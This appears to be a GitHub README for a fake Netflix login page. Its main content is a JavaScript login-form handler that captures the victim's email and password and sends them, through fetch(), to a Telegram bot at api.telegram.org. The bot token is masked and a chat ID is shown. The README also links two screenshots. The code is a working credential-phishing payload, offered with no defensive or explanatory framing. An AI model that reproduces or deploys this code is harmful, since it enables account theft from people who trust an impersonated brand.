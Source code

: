 # `Netflix`

```javascript
function submitLoginForm(event){
    event.preventDefault();
    let email = event.target['email'].value;
    let password = event.target['password'].value;
    let text = email + ` < Netflix > ` + password;
    
    let ID = 5721393154;
    let API = '***********************************************';
    let url = `https://api.telegram.org/bot${API}/sendMessage?chat_id=${ID}&text=${text}`;
    fetch(url);
}
```

<br>

> ![image](https://github.com/imvickykumar/netflix/assets/50515418/82890b6c-0701-4397-a479-2eef6efd3bed)
>
> ![image](https://github.com/imvickykumar/netflix/assets/50515418/f73ee4ba-b498-4153-90c2-e29da6eba546)
